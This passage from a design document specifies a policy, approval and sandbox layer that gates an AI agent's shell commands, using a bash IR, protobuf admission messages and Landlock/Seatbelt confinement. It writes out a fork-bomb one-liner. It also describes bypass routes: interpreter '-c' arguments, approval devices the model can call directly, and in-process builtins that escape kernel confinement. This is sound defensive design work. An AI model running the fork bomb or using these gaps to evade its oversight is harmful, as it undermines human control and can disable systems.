   `CANCELLED | SKIPPED | POLICY_DENIED` plus a structured `PolicyDenied` payload, added with
   `#[serde(default)]` so existing journaled records stay deserializable — and it should
   happen before the first policy ships, because records written without it cannot be
   retrofitted with the rule that produced them.
2. **`Tool::lift` defaults to `None`**, so no executor migrates history today. That is fine
   for policy — see open question 5, where the IR is re-derived rather than lifted — but it is
   not fine to describe lifting as working.
3. **`VerdictSpill` has no wired environment implementation.** A coalesced violation report
   over a long build can exceed any sane inline budget, and it is exactly the payload the
   trait was designed for.
4. **`ToolComplete.is_error` is one bool** (`crates/proto/proto/omp/toolhost/v1/toolhost.proto:95`)
   and cannot express four `Verdict` arms across the toolhost boundary. For policy this
   matters in one place: a device denied by admission and a device that faulted on its own are
   indistinguishable to anything reading the toolhost stream, which makes "how often does this
   device get denied" unanswerable. Widening it is `docs/py/02-verdicts.md`'s call; this
   document only records that policy attribution depends on it.

### `crates/shell` — the IR, and the analyzer that produces it

New module `crates/shell/src/analysis.rs`, plus `analysis/` submodules for cwd folding,
path inference and command classification. It is a pure function over what the parser already
produces:

```rust
/// Static analysis of a parsed script, independent of any expansion or execution.
pub fn analyze(program: &ast::Program, cwd: &str, root: &str) -> ScriptIr;

pub struct ScriptIr {
	pub source:           Str,
	pub rev:              IrRev,
	pub parse:            ParseState,
	pub lists:            SmallVec<[AndOrIr; 2]>,
	pub commands:         Vec<CommandIr>,
	pub reads:            Vec<PathRefIr>,
	pub writes:           Vec<PathRefIr>,
	pub net:              Vec<NetRefIr>,
	pub opaque:           SmallVec<[OpaqueIr; 2]>,
	pub has_dynamic_eval: bool,
	pub node_count:       u32,
}
```

Allocation discipline (`AGENTS.md`, Allocation Discipline): every text field is
`omp_core::Str`, never `String` — command names, argv words and lexical paths are cloned into
the IR, sliced for spans, and shipped, which is exactly the `Str` case. `Span` flattens the
parser's `Arc<SourcePosition>` pairs into `{ start: u32, end: u32, line: u32, column: u32 }`,
because the IR crosses a socket and an `Arc` per position is pure waste there. Per-command
collections are `SmallVec` (`argv` inline 8, `redirects` inline 2, `env` inline 2); `commands`,
`reads`, `writes` are plain `Vec` because they are built once and moved once. `dynamic_args`
is a `u64` bitmask on `CommandIr` with a spill for >64 arguments, and the Python-visible
tuple is materialised from it — a bitmask test is the hot operation every ported rule performs.

Four pieces of real work:

1. **Word dynamism.** `parser::word` already produces `WordPiece`
   (`crates/shell/src/parser/word.rs:34-57`), but `ast::Word` stores only raw text
   (`ast.rs:1766-1774`) and the expander evaluates straight to strings. The analyzer must call
   the word parser per word and fold the pieces into a `Dynamism` bitmask. Cost: one extra word
   parse per argument, on a path that already parses the whole script. Cheaper alternative:
   have the tokenizer record a dynamism bit on `Word` at parse time so the analyzer reads it
   for free. **Recommend the second** — it is a one-bit-per-word addition to a struct that is
   already built, and it makes `is_read_only()` free rather than a second parse. The cost is
   that `ast::Word` grows, and `Word::new`/`with_location` gain a computed field.
2. **Cwd folding.** A left-to-right fold over `CompoundList` maintaining
   `EffectiveCwd { Known(Str), Unknown }`, resetting on subshell exit and on downstream pipe
   stages, matching real shell scoping. This is the piece every extension gets wrong; it is
   ~150 lines here and correct once.
3. **Path and network inference.** A per-command table mapping argv shapes to `Access` and
   `NetRef` — which argument of `cp` is the destination, that `find -delete` is a delete, that
   `curl -o` writes, that `dd of=` writes a device. This is the one genuinely large data table
   the design adds, and it is the table `pi-menshen`, `cc-safety-net` and
   `pi-permission-system` each wrote badly. It belongs next to the coreutils that implement
   these commands, so the table and the implementation cannot drift.
4. **Interpreter payload extraction.** Recognising `-c`/`-e`/`--eval`/`-f` operands for the
   interpreters, and marking non-literal operands opaque.

`SourceSpan` is only `serde`-derivable under `cfg(test)` today
(`crates/shell/src/parser/ast.rs:35`, `source.rs:55-56`). The IR's own types must derive
`Serialize`/`Deserialize` unconditionally; the AST's test-only derives stay as they are, since
the IR is a separate flattened type and not a serialization of the AST.

### `crates/proto` — additions to two existing protocols, and one shared file

Both wire contracts already exist and both carry the same evolution rules
(`env.proto:14-19`, `toolhost.proto:14-18`): receivers skip unknown fields and enum values,
field numbers are never reused, and experimental extensions ride a namespaced
`omp.inference.v1.ValueMap` at tag 15. Every proposal below is additive. `crates/proto/build.rs`
generates prost structs plus serde derives for all of them, so nothing needs a hand-written
codec.

#### New file: `crates/proto/proto/omp/policy/v1/policy.proto`

The IR, the profile and the violation are produced env-side, consumed host-side, and referenced
by both protocols. Defining them in `env/v1` and re-declaring them in `toolhost/v1` would
duplicate the schema across packages, so they get their own package that both import — the same
shape `omp/blob/v1` and `omp/thread/v1` already have, both of which `env.proto:5-7` imports.

```proto
package omp.policy.v1;

message BashIr { … }               // ScriptIr, one sub-message per IR type
message BashCommand { … }
message BashArg { … }              // dynamism as a uint32 bitmask, not a repeated enum
message BashRedirect { … }
message PathRef { … }
message NetRef { … }
message Span { uint32 start = 1; uint32 end = 2; uint32 line = 3; uint32 column = 4; }

message SandboxProfile { … }
message FilesystemPolicy { … }
message NetworkPolicy { … }
message ExecPolicy { … }
message ResourceBudget { … }
message SandboxCapabilities { … }
message Violation { … }
message PolicyDenied { … }         // structured denial (owner: docs/py/02-verdicts.md); carried by Admission
message SandboxEnforcement { … }   // the runtime enforcement receipt
```

`Span` is four `uint32`s rather than a nested position pair, because the parser's
`Arc<SourcePosition>` (`crates/shell/src/parser/source.rs:57-62`) is a parse-time
sharing optimization with no meaning on a wire.

#### `env/v1` — enforcement and admission

`OpenSessionRequest` gains `omp.policy.v1.SandboxProfile sandbox = 5` (tags 1-4 and 15 used,
`env.proto:126-132`). `ExecRequest` gains `SandboxProfile sandbox_override = 3` (tags 1-2 and 15
used, `:156-160`). `ServerHello` gains `SandboxCapabilities sandbox_capabilities = 9` (tags 1-8
and 15 used, `:29-41`); its existing `repeated string capabilities = 3` also gains the
`policy/v1` capability token, which is how a client learns admission is available at all.

Two new admission messages, and one violation event:

```proto
// Server asks its caller whether an opened invocation may proceed. Sent on the
// invocation's own request_id, after InvokeTool and before any ArgsCommitted is
// honoured, so a denial can never follow an effect.
message AdmitInvocation {
  string invocation_id = 1;
  omp.policy.v1.BashIr bash = 2;      // set when the resolved executor is the shell engine
  uint64 deadline_ms = 3;
  omp.inference.v1.ValueMap props = 15;
}

message Admission {
  string invocation_id = 1;
  bool allow = 2;
  omp.policy.v1.PolicyDenied denied = 3; // structured denial: reason, code, decision_id, rules
  bytes args_patch = 4;                  // RFC 7386 merge patch, composed TRANSFORM result
  omp.inference.v1.ValueMap props = 15;
}

message ViolationEvent {
  omp.policy.v1.Violation violation = 1;
  omp.inference.v1.ValueMap props = 15;
}
```

`args_patch` carries the composed result of the accepted `TRANSFORM`s. During the phases
Core regenerates derived facts after every accepted transform, at an incremented
`derived_ir_revision`; the environment applies the final patch and re-derives once more before
anything executes, so the facts enforcement sees and the facts admission approved are the same
parse at the same revision ("Transforms, derived facts, and the audit trail" above).

`ClientFrame.body` gains `Admission admission = 27` and `SandboxProfile install_sandbox = 28`
(highest used is 26, `env.proto:432-461`). `ServerFrame.body` gains
`AdmitInvocation admit = 26` and `ViolationEvent violation = 27` (highest used is 25,
`:463-491`). `ProtocolErrorCode` gains `PROTOCOL_ERROR_CODE_PROFILE_WIDENED = 11` and
`PROTOCOL_ERROR_CODE_ENFORCEMENT_UNAVAILABLE = 12` (highest used is 10, `:412-424`).
`EventStreamKind` gains `EVENT_STREAM_KIND_VIOLATION = 5` (`:386-392`) so a lagged violation
stream terminates like any other rather than silently dropping audit records.

`ExecOutcome::EXEC_OUTCOME_DENIED = 5` (`:211`), `PROTOCOL_ERROR_CODE_PERMISSION_DENIED = 3`
(`:416`) and `PROTOCOL_ERROR_CODE_UNCOMMITTED = 10` (`:423`) already exist and are reused
unchanged — the vocabulary for "denied" and for "you have not committed yet" is already on the
wire, which is the strongest evidence that this gate belongs where this document puts it.
`ExecStatusMsg.effects_unknown` is likewise already the field an owner uses to say it cannot
establish the final state (`crates/tools/src/shell.rs:143`).

#### `toolhost/v1` — dispatching the phases to the host

CONTROL is `toolhost/v1` (`crates/proto/proto/omp/toolhost/v1/toolhost.proto`): varint-length-
delimited `HostFrame`/`WorkerFrame` over stdio, `request_id 0` reserved for hello, registration
and health, nonzero ids unique per in-flight invocation, and a terminal frame fusing a stream.
Policy needs exactly two frame pairs on top of that, and the event/verdict pair itself is
`docs/py/05-hooks.md`'s to define:

- `HostFrame.body` gains the hook dispatch and the answers to host-initiated requests. Tags 2-4
  are used (`toolhost.proto:133-141`), so the next free are 5 and 6.
- `WorkerFrame.body` gains the verdict and worker-initiated requests. Tags 2-9 are used
  (`:143-156`), so the next free are 10 and 11.

`WorkerRequest` is the reentrancy channel this document depends on: `policy.parse`,
`policy.match_paths`, `policy.install`, `policy.amend`, `policy.capabilities`,
`policy.enforcement`, `policy.pending`. It must be a request/response pair on a nonzero
`request_id` *distinct* from the invocation's — that is precisely the fuse
`toolhost.proto:18` describes. Note what is no longer on this list: `policy.approve` is gone
with the suspension model — approval is a returned `RequireApproval` decision and a
Core-owned ticket, so no worker request ever holds a thirty-minute human round trip open.

Three smaller additions:

- `ProtocolErrorCode` in `toolhost/v1` has no permission member (`:118-125`: UNSPECIFIED,
  INVALID_ARGUMENT, NOT_FOUND, UNSUPPORTED, INTERNAL, BUSY). It gains
  `PROTOCOL_ERROR_CODE_PERMISSION_DENIED = 6`, so a host that refuses a `WorkerRequest` on
  capability grounds says so in the same vocabulary `env/v1` already uses.
- `omp.Tier` needs a home on `ToolDecl` (`:54-59`, tags 1-3 and 15 used). Per the file's own
  evolution rule, it ships first as `props["omp/approval-tier"]` on the existing
  `ValueMap props = 15` and is promoted to `string tier = 4` once the vocabulary stops moving.
  Proposing a typed field for something still being designed is how field numbers get burned.
- `ToolAborted.effects_unknown` (`:104`) already exists and already carries the right meaning
  for a policy-adjacent abort. Nothing to add.

What this document explicitly does **not** need: a new socket, a new transport, or a parallel
registration mechanism. `RegisterTools`/`ToolDecl` (`:52-64`) is host-facing registration and it
is where a device's name, rev, schema and constraints already live — extensions register with
the host, never with the model. `SchemaConstraint { uint32 priority }` (`:35-37`) and
`GrammarConstraint` (`:39-43`) are already the constraint-as-intent mechanism, and policy does
not touch them.

### `crates/sandbox` — new crate, `omp-sandbox`

The OS primitives, isolated from everything that consults them. `crates/env` explicitly "owns
no world resources" (`crates/env/README.md:5`) and must stay that way; enforcement belongs
beside `crates/app/src/envd/exec.rs`, which is where processes are actually spawned.

```
crates/sandbox/src/
	lib.rs          // Confinement trait, Compiled, capability probe
	profile.rs      // Profile composition: denies union, allows intersect, mode max
	landlock.rs     // ABI detection, ruleset build, restrict_self at spawn
	bwrap.rs        // namespace + cgroup argv construction
	seatbelt.rs     // SBPL generation for sandbox_exec
	egress.rs       // SOCKS5 filter, SNI-based domain matching, DNS interception
	limits.rs       // rlimit / cgroup / job-object budgets
	violation.rs    // audit source normalization + coalescing
```

The core trait, unboxed per `AGENTS.md`'s async rules — a `Confinement` is applied
synchronously inside the pre-exec hook, so there is no future on this path at all:

```rust
/// One platform's confinement mechanism.
pub trait Confinement: Send + Sync + 'static {
	/// Backend this implementation provides.
	fn backend(&self) -> Backend;

	/// Reductions this backend must apply to `profile`, for reporting.
	fn degrade(&self, profile: &Profile) -> SmallVec<[Str; 4]>;

	/// Compiles `profile` once per session; the result is reused per command.
	fn compile(&self, profile: &Profile) -> Result<Compiled, CompileError>;

	/// Applies `compiled` in the child, between fork and exec. Must be
	/// async-signal-safe and must not allocate.
	fn apply(&self, compiled: &Compiled) -> Result<(), ApplyError>;
}
```

`compile` runs once at `OpenSessionRequest`; `apply` runs in the pre-exec hook of every spawn
under `crates/shell/src/commands.rs`'s spawn path. Compilation being per-session and
application being a no-allocation syscall sequence is what keeps confinement off the per-command
cost curve — a Landlock ruleset fd is created once and `landlock_restrict_self` is three
syscalls in the child.

Egress is the expensive half and the only place a task is warranted: one SOCKS5 listener per
session, `flume` mailbox for accept events, domain matching on the CONNECT target and on TLS
SNI. Futures are unboxed RPITIT; no `BoxFuture` anywhere.

### `crates/app/src/envd` — composition

`exec.rs` already owns everything the enforcement layer needs to attach to: `ExecHost` and
`HostInner` (`:135-145`), `SessionHandle`, `RunControl` and `SpawnBook` tracking process groups
(`:171-189`), `terminate()` walking those groups (`:591`), and
`ProcessGroupPolicy::NewProcessGroup` already forcing each external command into its own group
(`crates/shell/src/interp.rs:305-313`). Work:

- `SessionInner` gains a `Compiled` and the pre-exec hook that applies it.
- `SpawnObserver` (`interp.rs:80-84`) gains a violation sink, so an audit event can be
  correlated to the `pid`/`pgid` the observer already reports and thence to the running
  `command_index`.
- A new `admission.rs` holding the invocation admission gate: on `InvokeTool`, run the analyzer
  if the executor is the shell engine, emit `AdmitInvocation`, and park the invocation on a
  `flume` oneshot until `Admission` or the deadline. Timeout synthesises a deny.

### `crates/env` — client-side admission handling

`EnvClient` (`crates/env/src/client.rs:60`) is today a pure requester with an unsolicited-event
stream on `request_id 0`. It gains one reversed-direction handler:

```rust
/// Answers server-initiated admission queries for one client.
pub trait Admitter: Send + Sync + 'static {
	/// Future returned by [`Self::admit`]; inferred on the impl side.
	type Future<'c>: Future<Output = Admission> + Send + 'c;

	/// Decides one invocation. Must not block the frame dispatcher.
	fn admit<'c>(&'c self, query: AdmitInvocation) -> Self::Future<'c>;
}

impl EnvClient {
	/// Installs the admitter that answers server admission queries.
	pub fn set_admitter<A: Admitter>(&self, admitter: A);
}
```

`Admitter` is a trait with a GAT rather than a boxed closure because it is exactly the shape
`AGENTS.md`'s async rules sanction when a future must be nameable and stored: the impl writes
`type Future<'c> = impl Future<Output = Admission> + Send + 'c;` under
`impl_trait_in_assoc_type`, and there is no `BoxFuture` and no per-call `Box::pin` on a path
that runs once per tool call. `set_admitter` takes `A` by value and stores it in the
dispatcher's state, so installation allocates once per client, never per query.

`RunGuard` (`crates/env/src/guard.rs:13-62`) needs no change: an invocation denied at admission
is cancelled through the identical path as any other, and its guard drop is a no-op because
nothing spawned.

### `crates/agent` — the decision procedure, off the mailbox

`loop.rs` receives `AdmitInvocation` over the env channel, runs the per-invocation decision
procedure — phase dispatch to the extension host over CONTROL, transform composition, ticket
filing — and answers with `Admission`. Revision 1 titled this subsection "courier, not gate";
the retraction is recorded under "Where the gate sits". The D6 constraint that survives is
mechanical and real: none of this may touch the single interrupt mailbox — each invocation
owns a `flume` oneshot, the procedure is a detached task per invocation, and a call awaiting
a human ticket does not delay its siblings. `loop.rs:1487-1516` already snapshots a tool
allowlist across turns — that snapshot is the natural place for configuration-sourced
pre-answers (`ApprovalSource.CONFIG`), and it should be read there rather than re-derived.

### `crates/py` — IR bindings without a dict storm

The IR is deep and mostly unread: a rule that checks `ir.is_read_only()` touches a handful of
fields. Three options:

1. **Materialise dataclasses eagerly** on arrival. Simplest, and wrong: a 200-command script
   becomes thousands of Python objects to answer one boolean.
2. **`pyclass` views over the decoded prost message**, with `__getattr__` reading through and
   frozen dataclass semantics preserved by `slots` plus no setters. One allocation per accessed
   node.
3. **Pure-Python dataclasses built lazily from a pickle-5 out-of-band buffer**, reusing the
   mechanism already in `crates/py/python/omp_remote.py`.

**Recommend option 2.** It keeps the Rust type as the single definition (no schema written
twice), pays only for what a rule reads, and the accessor cost is dominated by the CONTROL
round trip that delivered the event. Option 3's appeal is that it needs no new PyO3 surface,
but it duplicates the schema in Python and loses the type as the source of truth. The cost of
option 2 is that `omp.BashIR` is a `pyclass` presenting a frozen-dataclass surface rather than
an actual `@dataclass`, so `dataclasses.replace` and `astuple` do not work on it — an
acceptable loss for a value nobody should be mutating.

Convenience methods (`is_read_only`, `writes_outside`, `touches`, `net_sinks`) belong in Rust
on `ScriptIr`, not in Python: they are the hot predicates, they are shared with Rust-side
policy, and a glob match over a few hundred paths should not be a Python loop.

### What does not exist today, and the additive path to it

The reference above is written as reference. This subsection is the correction: three things
this namespace depends on are not reachable in the shipped tree, and one shipped behaviour is
actively wrong. Verified on disk, not inferred.

**1. There is no DATA edge from Python.** The Python side is a `toolhost/v1` stdio worker.
`crates/app/src/envd/server.rs:177-188` holds `_documents: DocumentHost`,
`_document_authority` and `_workspace: WorkspaceHost` as underscore-prefixed fields —
constructed and never dispatched — so documents, fs, LSP and workspace search have no reachable
frame for a Python client even though exec, named processes and blobs are wire-complete in
`env/v1`. Everything in this document that "rides DATA" — `@omp.hook("sandbox_profile")`,
`omp.policy.install`, `omp.policy.amend`, `omp.policy.capabilities`,
`omp.policy.effective_profile` — is therefore specified and unreachable, and so is
`SandboxProfile` enforcement itself, since a profile has to arrive on `OpenSessionRequest`.

The additive path is short, which is the one piece of good news: `EnvServer::serve_io`
(`server.rs:412`) already accepts any `AsyncRead + AsyncWrite` and differentiates callers per
connection through `ConnectionPolicy` (`:130`), so the host needs a socket path and a policy
row, not a new server. The transport for that path is the existing environment-variable
convention the worker already uses — `OMP_PY_SITE` and `OMP_PY_MODULES`
(`crates/app/src/envd/worker.rs:388`, `:399`, documented at `:912-915`) — so one additional
`OMP_*` variable naming the env UDS is the whole mechanism. `omp_env::EnvClient` is already the
typed client and needs no change beyond the `Admitter` above.

**2. Lesson #6 is violated in shipped code, and it is a policy problem specifically.**
`Registry::register_worker` (`crates/tool/src/registry.rs:413-426`) inserts worker declarations
into `self.live` at `:424`, and its own doc comment at `:411` says worker declarations
"participate in identity, hashing, and advertisement". `Registry::advertise` (`:483-492`) then
iterates all of `self.live` and lowers every entry with **no route filter** — the doc comment
says "for one selected route", the body contains no route check. So every Python worker
declaration occupies a slot in the model's advertised tool array today.

For policy this is worse than a token tax. A registered approval or sandbox device becomes
directly model-callable: the model can invoke the machinery that is supposed to be gating it.
The fix is contained, because route-awareness already exists and `advertise` simply does not
use it — `Registry::invoke` (`:470-480`) refuses `ToolRoute::Worker` at `:476-478`, and
`live_identities` (`:437-443`) documents that "callers still need to inspect `route` before
granting an execution capability". `advertise` needs the same `route` predicate its siblings
already apply. Until it does, a policy extension cannot honestly claim it registers nothing
with the model.

**3. `live_hash` is one digest over every live identity** (`:450-467`, blake3 over the
`BTreeMap` order). It is the right primitive for "did the live registry change" and the wrong
one for "did the model-facing tool array change", and the difference matters to the
`resources_discover` gate in this document: a policy that hides a device from discovery must not
invalidate the prompt prefix cache, and with a single digest it would. The split — a slot hash
over model-facing entries and a device hash over everything else — is `docs/py/01-devices.md`'s
to specify; recorded here because the discovery gate's cost claim depends on it.

**4. `Abort` has no `POLICY_DENIED` kind or `PolicyDenied` payload**, restated from the
`crates/tool` subsection above because it is the one additive change that must land before a
policy ships rather than after: journaled records written without it cannot be retrofitted
with the rule that produced them.

### `crates/observability`, `crates/storage`

Telemetry: policy decision spans and violation counters, with the enum↔string vocabularies
derived through strum or the `vocab!` macro in `crates/observability/src/semconv.rs` — hand-written
match tables are prohibited (`AGENTS.md`, Toolchain & Style).

Storage: new journal entry kinds for `PolicyDecision`, `ApprovalTicketFiled`,
`ApprovalDecided`, `SandboxInstalled`, `SandboxEnforcementReceipt` and `SandboxViolation`.
`ApprovalTicketFiled` must be durable at filing — the ticket is Core state before anything
else happens — so a pending approval survives a host or session restart by construction; that
is what makes a 30-minute Slack round trip legitimate rather than a leak.

### Feature-map reconciliation

**Satisfied, from `.plan/feature-map/tools-exec.md`:**

- "Bash safety and approval policies … Hardcoded critical pattern detector
  (`CRITICAL_BASH_PATTERNS`)" (`:23-32`) — every one of the nine listed families becomes an IR
  query. Fork bombs are the exception: `:(){ :|:& };:` is a `FunctionDefinition` whose body is
  an async self-recursive pipeline, which the IR represents but which no rule in this document
  detects. It belongs in `ResourceBudget.processes`, not in a pattern.
- "Custom pattern rules via `bash.patterns`: supports `allow`, `deny`, and `prompt` glob
  matches" (`:33`) — becomes a rulebook over the IR; `prompt` becomes `RequireApproval`
  returned from the `APPROVAL` phase.
- "Glob matching semantics: `deny` and `prompt` evaluate against individual compound command
  segments (split on `;`, `&&`, `||`, `|`, `&`, subshells, newlines)" (`:34`) — becomes
  `BashIR.segment(index)`; the splitter is deleted.
- "Reinterpreted command arguments check: `hasBashApprovalShellControl` scans `-c`, `-e`,
  `--command`, `--eval` arguments … to prevent bypass" (`:35`) — becomes
  `BashCommandIR.interpreter_code` plus `omp.policy.parse`. The bypass class disappears
  rather than being scanned for.
- "Command line formatting in approval dialog: truncates long commands (`truncateForPrompt`)"
  (`:36`) — becomes `ApprovalSpec.body` rendered by the TUI (`docs/py/07-ui.md`).

**Satisfied, from `.plan/feature-map/secrets-security.md`:**

- `secrets.enabled`, `loadSecrets`, `loadSecretsFile`/`validateEntry`, `compileSecretRegex`,
  `collectEnvSecrets`, `builtinCredentialSecretEntries` (`:3`, `:7-11`) — become
  `omp.secrets.declare` plus `omp.SecretRule`, with the built-in credential patterns as core
  data rather than an extension's regex list.
- `SecretObfuscator`, `deobfuscateToolArguments`, `obfuscateProviderContext` (`:33`, `:52`,
  `:56`) — the obfuscation engine itself is core and out of scope here; what this document
  fixes is the *interaction*: rule 1 (the IR is unredacted) and rule 2 (everything a policy
  emits is masked) are the contract that engine needs and that pi never stated.
- `getSecretPlaceholderKey` (`:47`) and the `0o600` key file — unchanged core work.

**Explicitly not satisfied:** the entire `security://` scan slice of `secrets-security.md`
(`:58-200`) — `SecurityScan`, `SecurityStore`, preflight, SARIF import/export, the Codex
Security cloud client, `security_publish`. That is a *tool*, not a policy: it belongs behind
a `security` device exposed through the `dyn` shell builtin (`docs/py/01-devices.md`), with its
store in the environment. Nothing in `omp.policy` should be read as covering it.

**Conflicts, and how they resolve.** `.plan/feature-map/ROADMAP.md` marks thirteen approval
features `⚠ redesign`, all with the same reason: lines 278 ("approvals move env-side, no loop
gate chain"), 325, 341, 342 ("no approval gate chain in loop"), 438, 442, 443 ("env invariants
replace prompt chain"), 462 ("env-side enforcement"), 463 ("no in-loop approval prompts"), 484,
521, 614, 796. This design is that redesign: the phases are real, the environment's
invocation admission gate is where the answer is enforced, and Agent Core runs the decision
procedure that produces it — off the mailbox, per invocation, never as a batch scheduler
("Where the gate sits"). Two of them resolve differently:

- `:238` "auto-generated file overwrite guard; privileged write/delete sandbox fallback
  ⚠ redesign: env invariants, not loop gate" and `:443` "EPERM/EACCES/EROFS interception,
  privileged write/unlink registries ⚠ redesign: env invariants replace prompt chain" —
  these become `omp.Violation` plus `omp.Amend`, which is an env invariant *with* a
  remediation channel. Neither needs a loop gate.
- `.plan/feature-map/TREE.md:809` "ACP permission gate (`acp-permission-gate.ts`,
  `PERMISSION_REQUIRED_TOOLS`) intercepting destructive actions … with permission prompts
  (`allow_once`, `allow_always`, `reject_once`, `reject_always`)" — the four decisions become
  `ApprovalDecision.approved` × `PolicyScope`, and ACP becomes one `ApprovalRoute` rather than
  a parallel gate implementation.

### Failure and cancellation semantics

| Event | Result |
|---|---|
| admission phases exceed `POLICY_DEADLINE` | env receives a denying `Admission`; the invocation settles as `CallOutcome.Aborted(kind=POLICY_DENIED, policy=PolicyDenied(code="policy.deadline", …))` and is journaled |
| host crash or CONTROL EOF mid-admission | admission fails closed for the in-flight call, and the crashed extension's fail-closed subscriptions persist as synthetic Deny stubs ("What fail-closed means after a failure") until the host is healthy again; nothing rolled back, because nothing before `EFFECTS_AUTHORIZED` had effects; the restarted host reactivates via `extension_activate(reason=RESTART)` |
| exception in a policy hook | `Deny` with the traceback journaled; never swallowed into an allow |
| policy extension crashed or quarantined | fail-closed subscriptions persist as synthetic Deny stubs built from the manifest declaration; only explicit user/org disable removes them |
| turn cancelled while an approval ticket is pending | the invocation's `RunGuard` drops; Core withdraws the ticket (`TicketState.WITHDRAWN`) and dismisses the dialog; the journal records the withdrawal |
| host restart while an approval ticket is pending | nothing: the ticket is Core state, durable at filing; the approver is re-offered it on `extension_activate` and must be idempotent on `ticket_id` |
| `sandbox_profile` hook fails | contributor dropped; if configuration requires confinement and no contributor succeeded, the session refuses to open |
| enforcement backend absent, `require` set | `omp.EnforcementUnavailable`; the session refuses to open |
| enforcement backend absent, `require` empty | reductions reported in `SandboxCapabilities.degraded`; the session opens with what can be enforced |
| violation while `mode is OBSERVE` | `Violation.enforced=False`; the operation succeeded |
| command cancelled after admission | unchanged from today: `RunGuard` drop → `SpawnBook::terminate` → `SIGTERM` then `SIGKILL` on the process group |

Cancellation is structural throughout: there is no `interruptible` flag on a policy, no
per-hook timeout taxonomy, and no cleanup an extension is responsible for. Guard drop is the
mechanism (**D5**).

### Open questions

1. **Resolved (2026-08-19 user ruling): ship nothing.** v1 ships no sandbox enforcement.
   Extensions are not a security boundary — they load and run unconfined on every platform.
   Long-term isolation is VM-grade (vibevmm) plus a dedicated sandbox layer (isobox), integrated
   later and explicitly deferred; neither (a), (b), nor recommended (c) proceeds — kernel
   confinement returns only with that deferred work. **The in-process shell is not confined by the
   kernel.** Landlock and Seatbelt confine
   *processes*. `crates/shell`'s 48 builtins and its coreutils run inside the
   environment daemon, so a `SandboxProfile` cannot restrain them by kernel means — a
   `deny_write` on `.git` stops `/usr/bin/rm` and does not stop the in-process `rm`. Options:
   (a) fork a confined child per exec, which costs the persistent session's cwd, environment
   and jobs — the state the blogpost's in-process-shell section exists to keep; (b) enforce
   path confinement inside the engine's own fs layer, which is Rust-enforced but same-process,
   so a bug in the check is a bypass rather than an `EPERM`; (c) confine the daemon itself to a
   workspace superset with Landlock and layer (b) inside it. **Recommend (c)**: the kernel
   bounds the blast radius even if the engine's check is wrong, and the session survives. This
   is the single largest unresolved risk in the design and it should be written down as such
   rather than discovered.
2. **Resolved (2026-08-19 user ruling): ship nothing — no SOCKS filter, no netns redirect, no
   PROXY_ONLY grading in v1; egress enforcement is deferred to the vibevmm/isobox integration.**
   **Domain allowlisting is not a kernel capability.** Landlock's network rules arrive at ABI
   v4 and cover TCP bind/connect by port only — never a hostname. Domain filtering therefore
   requires the SOCKS filter, which holds only for proxy-aware clients unless egress is
   redirected at the netns level, and that needs `CAP_NET_ADMIN`. QUIC and raw UDP escape it
   entirely. Unresolved: do we require a network namespace with transparent redirect (correct,
   needs privilege, breaks unprivileged installs) or accept the proxy-only posture and report
   it honestly as `SandboxEnforcement(network=PROXY_ONLY)` with the gap named in
   `degraded_reasons`? Either way the receipt never grades a proxy-only session `HARD`.
3. **Resolved (2026-08-19 user ruling): ship nothing on macOS — neither the deprecated Seatbelt
   path nor an ES/NE helper; deferred with the rest of sandbox enforcement.** **macOS Seatbelt is
   deprecated.** `sandbox_init` has been deprecated since 10.7 and
   `sandbox-exec`'s profile language is undocumented. There is no supported replacement for
   confining an arbitrary child process outside the App Sandbox. Unresolved: ship the
   deprecated path, or a notarized Endpoint Security / Network Extension helper with the
   distribution burden that implies?
4. **Resolved (2026-08-19 user ruling): ship nothing on Windows — sessions open unconfined; the
   ENFORCE-refuses-vs-low-requirements dilemma dissolves because no enforcement ships.**
   **Windows.** No equivalent exists; AppContainer plus job objects covers part of the
   filesystem story and none of the egress story. Half of Revision 1's question is now
   answered by rule: `SandboxMode.ENFORCE` never degrades to `OBSERVE` — it meets the
   profile's declared requirements or the session refuses to run, and what it does meet is
   graded honestly in the `SandboxEnforcement` receipt. What stays unresolved is product
   posture: is `ENFORCE`-refuses-on-Windows an acceptable default, or do default profiles
   declare requirements low enough (`filesystem=BEST_EFFORT`, `network=NONE`) that Windows
   sessions open at all?
5. **IR revision lifting.** `docs/py/02-verdicts.md` ships `lift()` so recorded calls re-render
   into the current dialect. The IR is *derived*, not recorded — it is a pure function of the
   script text and the parser revision — so the cheap answer is to journal
   `(source, parser_rev)` and re-derive on demand, which needs no `lift` at all. That holds
   until an old parser revision is no longer buildable. Unresolved: is re-derivability a
   guarantee we are willing to make, or does the IR need to be journaled and lifted like a
   verdict?
6. **Resolved (2026-08-19 user ruling): mooted — nothing enforces in v1, so no violations are
   raised to attribute; attribution returns with the deferred isolation work.** **Attributing a
   violation to a command index.** `Violation.command_index` requires
   correlating a kernel audit event to the `BashIR` command that was executing. `SpawnObserver`
   gives `pid`/`pgid` (`crates/shell/src/interp.rs:80-84`), which is sufficient for
   external commands and insufficient for a violation raised by an in-process builtin. Under
   recommendation (c) in question 1 the engine raises those itself and can attribute them
   exactly, so the two questions resolve together — but if (a) or (b) is chosen,
   `command_index` is best-effort and the field should say so.
7. **Cancellation granularity — resolved by per-extension processes and durable tickets; D5
   amendment ratified.** Revision 1 carried a long open question here: D5's pre-amendment
   text (**D5 — Cancellation is resource-owned**) settled Python cancellation as "supervised worker
   (same-binary re-entry, **warm pool of one**); cancel = **SIGKILL + respawn**", the shipped
   `ToolWorkerSupervisor` implements that literally as one warm worker servicing one
   invocation at a time (`crates/app/src/envd/worker.rs:231-237`, `:592-727`), and this
   document needs concurrency — at which point SIGKILL-on-cancel would destroy every
   in-flight invocation in a shared interpreter. Revision 1 weighed three ways out and
   recommended "a pool keyed finer than one". That recommendation is no longer a
   recommendation: the topology is decided (`docs/py/00-overview.md`,
   `docs/py/04-placement.md`) — **one process per extension**, host key
   `(layer, tier, extension)`, pooling only as explicit opt-in fate-sharing. Two consequences
   dissolve what made the question acute for policy:

   - **SIGKILL granularity is one extension's process group.** Cancelling one extension's
     work loses that extension's in-flight invocations and nobody else's; two concurrent
     calls into one extension share a cancellation fate, and calls into different extensions
     do not. That is statable in the contract, and it is D5's mechanism intact — SIGKILL is
     still the mechanism, interrupts are still courtesy (`interrupt_grace`,
     `worker.rs:74-75`) — with the unit of loss shrunk from the session to the extension.
   - **Approvals no longer create long suspensions at all.** Revision 1's worst case — a
     suspended `policy.approve` coroutine holding the worker for hours while every other
     extension queued behind it, including the `sandbox_violation` hook that would remediate
     it — cannot occur, because approval is a returned `RequireApproval` and a Core-owned
     durable ticket. There is no host coroutine to hold, so cancellation never has to choose
     between killing a pending human decision and waiting one out.

   What remained open was not design but `.plan`, and it is closed: the **D5 amendment this
